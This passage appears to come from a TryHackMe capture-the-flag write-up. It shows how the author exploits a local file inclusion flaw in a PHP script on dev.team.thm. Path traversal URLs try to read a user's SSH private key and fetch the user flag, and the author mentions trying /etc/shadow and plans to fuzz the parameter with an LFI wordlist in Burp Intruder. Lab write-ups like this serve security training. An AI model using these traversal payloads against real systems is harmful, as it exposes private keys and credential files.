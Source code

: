 So that's why the LFI works, it doesn't validate input at all.

I check to see if I can pull any id_rsa files by going to:

```
view-source:http://dev.team.thm/script.php?page=../../../../../home/dale/.ssh/id_rsa
```

But don't have any luck. No id_rsa files for any of the users with shells either.

I am able to pull the user.txt flag from the /home/dale directory though:

```
view-source:http://dev.team.thm/script.php?page=../../../../home/dale/user.txt
```

user.txt flag:

```
THM{<REDACTED>}
```

I'm also unable to pull anything that requires root privileges like /etc/shadow.

Time to use the seclists LFI list to see if we can pull anything useful from the system using Burp. I capture our LFI request and send it over to intruder. Then adjust the payload position to only include what comes after ../../../../

![](images/team5.png)

![](images/team6.png)

